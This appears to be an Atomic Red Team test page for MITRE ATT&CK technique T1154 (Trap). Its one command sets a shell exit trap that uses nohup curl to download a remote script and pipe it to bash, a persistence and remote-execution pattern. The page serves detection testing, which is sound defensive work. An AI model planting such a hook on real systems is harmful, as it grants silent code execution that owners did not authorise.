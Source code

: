# Trap

## MITRE ATT&CK Technique:
[T1154](https://attack.mitre.org/wiki/Technique/T1154)

## Command
    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' EXIT

    exit

## After exiting the shell, the script will download and execute.
